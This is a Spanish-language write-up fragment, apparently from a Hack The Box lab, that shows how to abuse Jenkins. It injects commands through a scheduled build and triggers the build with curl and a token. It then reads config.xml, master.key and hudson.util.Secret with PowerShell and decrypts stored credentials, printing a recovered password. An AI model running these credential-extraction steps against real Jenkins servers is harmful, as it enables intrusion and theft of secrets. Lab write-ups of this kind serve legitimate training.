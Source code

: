 # jenkins

# Jenkins

## Inyectar comando al construir proyecto

![https://rubbxalc.github.io/writeups/assets/img/Object-htb/4.png](https://rubbxalc.github.io/writeups/assets/img/Object-htb/4.png)

image

Es necesario agregar una tarea para que se ejecute cada cierto tiempo (En este caso, cada minuto)

![https://rubbxalc.github.io/writeups/assets/img/Object-htb/5.png](https://rubbxalc.github.io/writeups/assets/img/Object-htb/5.png)

image

Una vez se ha compilado, se puede ver el output del comando que he indicado

![https://rubbxalc.github.io/writeups/assets/img/Object-htb/6.png](https://rubbxalc.github.io/writeups/assets/img/Object-htb/6.png)

image

En caso de no querer esperar a que se ejecute la tarea, existe una alternativa. Creo un token desde los ajustes de la cuenta a la que previamente tenía acceso

![https://rubbxalc.github.io/writeups/assets/img/Object-htb/8.png](https://rubbxalc.github.io/writeups/assets/img/Object-htb/8.png)

image

Con `curl` construyo el proyecto

```
curl -s -X GET 'http://rubbx:11a8956263bda19798dacf5911460d759c@10.10.11.132:8080/job/Testing/build?token=rubbx
```

## Obtener credenciales

En caso de poder ejecutar comandos, es necesario traer tres archivos, el `config.xml`, `master.key` y `hudson.util.Secret`

```
cmd /c powershell -c type ..\..\users\admin_17207690984073220035\config.xml
```

```
cmd /c powershell -c type ..\..\secrets\master.key
```

El último al ser un binario hay que traerlo en base64 para posteriormente hacer un decode

```
cmd /c powershell -c [convert]::ToBase64String((Get-Content -path "..\..\secrets\hudson.util.Secret" -Encoding byte))
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c [convert]::ToBase64String((Get-Content -path "..\..\secrets\hudson.util.Secret" -Encoding byte))
```

La herramienta necesaria se encuentra en [Github](https://github.com/hoto/jenkins-credentials-decryptor)

```
./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
[
  {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
  }
]
```